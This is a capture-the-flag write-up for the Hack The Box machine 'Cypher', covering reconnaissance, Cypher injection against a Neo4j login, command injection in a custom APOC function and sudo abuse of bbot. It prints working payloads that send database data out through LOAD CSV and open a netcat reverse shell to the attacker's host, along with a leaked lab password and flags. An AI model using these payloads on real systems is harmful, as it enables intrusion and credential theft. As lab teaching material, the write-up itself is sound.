








Platform :
Hack the Box

Box :
Cypher

Difficulty :
Medium

OS :
Linux 

Created by: 
Techromancer

*Overview*

Cypher is a medium-difficulty Linux machine from HackTheBox The machine involves:

-Discovering Java class files on the website and decompiling them.

-Identifying a vulnerable custom function capable of executing a reverse shell.

-Exploiting a rare Cypher injection vulnerability in the Neo4j graph database.

-Escalating privileges through a misconfigured Bbot recon scanner to retrieve the root flag.

-------------------------------------------------------------------------------------------------------
*Starting with an Nmap scan to identify open ports:*
Port 22 (SSH): Running OpenSSH 9.6p1 on Ubuntu.

Port 80 (HTTP): Hosting an Nginx 1.24.0 web server.

The website is accessible at http://cypher.htb/, so we add it to /etc/hosts.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -Pn -A 10.10.11.57                        
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-15 03:52 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 03:52 (0:00:00 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 03:52 (0:00:07 remaining)
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 03:52 (0:00:00 remaining)
Stats: 0:02:09 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Traceroute Timing: About 32.26% done; ETC: 03:54 (0:00:00 remaining)
Stats: 0:02:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.54% done; ETC: 03:54 (0:00:00 remaining)
Stats: 0:02:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.60% done; ETC: 03:54 (0:00:00 remaining)
Stats: 0:02:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.60% done; ETC: 03:54 (0:00:00 remaining)
Stats: 0:02:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.60% done; ETC: 03:54 (0:00:00 remaining)
Stats: 0:02:39 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.65% done; ETC: 03:55 (0:00:00 remaining)
Stats: 0:02:39 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.65% done; ETC: 03:55 (0:00:00 remaining)
Stats: 0:02:40 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.65% done; ETC: 03:55 (0:00:00 remaining)
Nmap scan report for cypher.htb (10.10.11.57)
Host is up (1.2s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
|_http-server-header: nginx/1.24.0 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (97%), Linux 5.0 (95%), Linux 5.0 - 5.4 (95%), OpenWrt 0.9 - 7.09 (Linux 2.4.30 - 2.4.34) (93%), OpenWrt White Russian 0.9 (Linux 2.4.30) (93%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (93%), Linux 4.15 - 5.8 (93%), Linux 5.3 - 5.4 (92%), Linux 2.6.32 (92%), AVM FRITZ!Box (FritzOS 6.20) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   154.10 ms 10.10.16.1
2   153.75 ms cypher.htb (10.10.11.57)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                       
Nmap done: 1 IP address (1 host up) scanned in 165.36 seconds   
```
-------------------------------------------------------------------------------------------------------
The website has title “GRAPH ASM” and presents itself as “revolutionary Attack Surface Management solution that harnesses the power of proprietary graph technology to map your organization’s digital landscape.”

When I looked at the source code, there was a comment that caught my attention. A quote from a potential user “TheFunky1”.



In the source code for login page, I found a script that makes POST request to “/api/auth” endpoint, suggesting there’s an API, which opened doors for more attack vectors.




I continued with directory fuzzing using Gobuster.
```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u "http://cypher.htb" -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 64 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cypher.htb
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 4562]
/login                (Status: 200) [Size: 3671]
/about                (Status: 200) [Size: 4986]
/demo                 (Status: 307) [Size: 0] [--> /login]
/api                  (Status: 307) [Size: 0] [--> /api/docs]
/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]
```
Aside from a few well-known directories, I discovered a "demo" page that redirected me to the "login" page and an "api" page leading to the documentation. However, the "testing" page caught my attention. There, I found a mysterious Java Archive (JAR) file named "custom_apoc_extension," which I quickly downloaded.  

APOC, short for "Awesome Procedures on Cypher," is a library of procedures and functions designed for Neo4j, a widely used graph database. It enhances Neo4j's capabilities by offering a variety of additional features not included in the core database, such as tools for data import/export, graph algorithms, and data transformation. 




Besides that, there were couple Java class files in the Jar archive.


I used online Java decompiler to decompile and inspect individual files. Looking at the decompiled code of “CustomFunctions.class”, I noticed very familiar string “/bin/sh” being used.

There is a custom function/procedure called **"custom.getUrlStatusCode"** that sends an HTTP request to a specified URL and returns the corresponding HTTP status code. It utilizes **"curl"** for the request, which is executed via **"/bin/sh"**, potentially introducing a security risk.  

Moreover, the **"url"** parameter is directly appended to the shell command without any validation, making remote code execution (RCE) possible.



--------------------------------------------------------------------------------------------------------------------------------------------------------------
Testing the login page with a single quote (') returns a Neo4j error message, confirming Cypher injection.



Using Cypher injection, we extract database details:
```bash
POST /api/auth HTTP/1.1
Host: cypher.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 261
Origin: http://cypher.htb
Connection: keep-alive
Referer: http://cypher.htb/login
Priority: u=0

{"username":"' OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.16.9:9000/?'+label AS b RETURN b//","password":"admin"}
```
Results show that Neo4j 5.24.1 (Community Edition) is in use.

Next, we enumerate labels (equivalent to tables in SQL):
```bash
' OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.16.9:9000/?'+label AS b RETURN b//
```

Finds an interesting label: USER.

We then extract credentials:
```bash
' OR 1=1 WITH 1 as a MATCH (f:USER) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.9:9000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

```bash
POST /api/auth HTTP/1.1
Host: cypher.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 261
Origin: http://cypher.htb
Connection: keep-alive
Referer: http://cypher.htb/login
Priority: u=0

{"username":"' OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.16.9:9000/?'+label AS b RETURN b//","password":"admin"}
```


```bash

┌──(root㉿kali)-[/home/kali]
└─# python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.11.57 - - [15/Mar/2025 04:36:02] "GET /?USER HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:06] "GET /?HASH HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:09] "GET /?DNS_NAME HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:13] "GET /?SHA1 HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:16] "GET /?SCAN HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:18] "GET /?ORG_STUB HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:20] "GET /?IP_ADDRESS HTTP/1.1" 200 -

```

```bash
POST /api/auth HTTP/1.1
Host: cypher.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 146
Origin: http://cypher.htb
Connection: keep-alive
Referer: http://cypher.htb/login
Priority: u=0

{"username":"' OR 1=1 WITH 1 as a MATCH (f:USER) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.9:9000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //","password":"admin"}
```

```bash
┌──(root㉿kali)-[/home/kali]
└─# python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.11.57 - - [15/Mar/2025 04:36:02] "GET /?USER HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:06] "GET /?HASH HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:09] "GET /?DNS_NAME HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:13] "GET /?SHA1 HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:16] "GET /?SCAN HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:18] "GET /?ORG_STUB HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:36:20] "GET /?IP_ADDRESS HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:37:37] "GET /?name=graphasm HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:38:21] "GET /?USER HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:38:22] "GET /?HASH HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:38:23] "GET /?DNS_NAME HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:38:25] "GET /?SHA1 HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:38:28] "GET /?SCAN HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:38:29] "GET /?ORG_STUB HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:38:30] "GET /?IP_ADDRESS HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:39:26] "GET /?name=graphasm HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:39:58] "GET /?name=graphasm HTTP/1.1" 200 -
10.10.11.57 - - [15/Mar/2025 04:41:03] "GET /?name=graphasm HTTP/1.1" 200 -

```

```bash
POST /api/auth HTTP/1.1
Host: cypher.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 177
Origin: http://cypher.htb
Connection: keep-alive
Referer: http://cypher.htb/login
Priority: u=0

{"username":
"a' return h.value as a UNION CALL custom.getUrlStatusCode('http://10.10.16.9:9000;busybox nc 10.10.16.9 1234 -e sh;#') YIELD statusCode AS a RETURN a;//"
,"password":"admin"}
```

```bash

                                                                                                                                                           
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.57] 40990
whoami
neo4j


┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.57] 40990
whoami
neo4j
ls
bin
bin.usr-is-merged
boot
cdrom
dev
etc
home
lib
lib.usr-is-merged
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
sbin.usr-is-merged
srv
sys
tmp
usr
var
cd home
ls
graphasm
cd graphasm
ls
bbot_preset.yml
user.txt
cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

Inside /home/graphasm/, we find a configuration file bbot_preset.yml, containing:

Using the password, we switch to graphasm and retrieve the user flag.
```bash


python3 -c 'import pty; pty.spawn("/bin/bash")'
neo4j@cypher:/home/graphasm$ ls
ls
bbot_preset.yml  user.txt
neo4j@cypher:/home/graphasm$ su graphasm
su graphasm
Password: cU4btyib.20xtCMCXkBmerhK

graphasm@cypher:~$ 


graphasm@cypher:/$ ls
ls
bin                dev   lib64              mnt   run                 sys
bin.usr-is-merged  etc   lib.usr-is-merged  opt   sbin                tmp
boot               home  lost+found         proc  sbin.usr-is-merged  usr
cdrom              lib   media              root  srv                 var
graphasm@cypher:/$ cd ~
cd ~
graphasm@cypher:~$ ls
ls
bbot_preset.yml  user.txt
graphasm@cypher:~$ cat user.txt
cat user.txt
00f133a5f961b68e17a71f0df6abc546
graphasm@cypher:~$ 

```

Running sudo -l reveals:

Bbot is a recon scanner. Analyzing its script shows it loads files specified as arguments.

```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```
Bbot is a multipurpose scanning tool inspired by Spiderfoot, designed for automated reconnaissance. I examined its source code:

Bbot typically scans URLs, but I found that it would process any file provided as input. I tested it using a file named file.txt containing the text "justfile123":
```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -t /home/graphasm/file.txt
```
I then explored Bbot’s help menu and found the -d (debug) option. Hoping it would reveal more details about the file it was processing, I executed:
```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -t /home/graphasm/file.txt -d
```
The debug output included extensive logs, and in the middle of them, I found my file's contents fully exposed.


Realizing this vulnerability, I replaced my test file with /root/root.txt to read the root flag:

```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -t /root/root.txt -d
```

Bbot exposed the contents of root.txt, successfully revealing the root flag.


